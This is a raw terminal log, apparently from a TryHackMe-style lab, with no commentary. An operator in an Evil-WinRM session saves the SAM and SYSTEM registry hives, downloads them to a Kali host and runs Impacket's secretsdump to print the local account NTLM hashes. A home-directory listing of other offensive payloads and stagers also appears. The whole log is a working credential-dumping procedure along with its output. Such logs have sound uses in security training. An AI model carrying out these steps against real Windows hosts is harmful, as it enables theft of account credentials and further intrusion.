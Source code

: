 ```
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288
*Evil-WinRM* PS C:\Users\thmuser1\Documents> reg save hklm\system system.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\thmuser1\Documents> reg save hklm\sam sam.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\thmuser1\Documents> download system.bak
Info: Downloading system.bak to ./system.bak

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\thmuser1\Documents> download sam.bak
Info: Downloading sam.bak to ./sam.bak

                                                             
Info: Download successful!

*Evil-WinRM* PS C:\Users\thmuser1\Documents> 

Warning: Press "y" to exit, press any other key to continue


Info: Exiting...

                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
                                                                                           
┌──(kali㉿kali)-[~]
└─$ ls
armitage-tmp  Documents        liv0ff.ps1          PowerLessShell   system.bak
book.txt      Downloads        live0fftheland.dll  Public           Templates
clinic.lst    ftp_flag.txt     multi_launcher      sam.bak          thm.hta
crunch.txt    hashctf2         Music               sandox_learning  usernames-list.txt
Desktop       IDS_IPS_evasion  payload.hta         snmpcheck        Videos
dict2.lst     index.raw        Pictures            stager2.bat
dict.lst      launcher.bat     powercat            Sublist3r
                                                                                           
┌──(kali㉿kali)-[~]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
```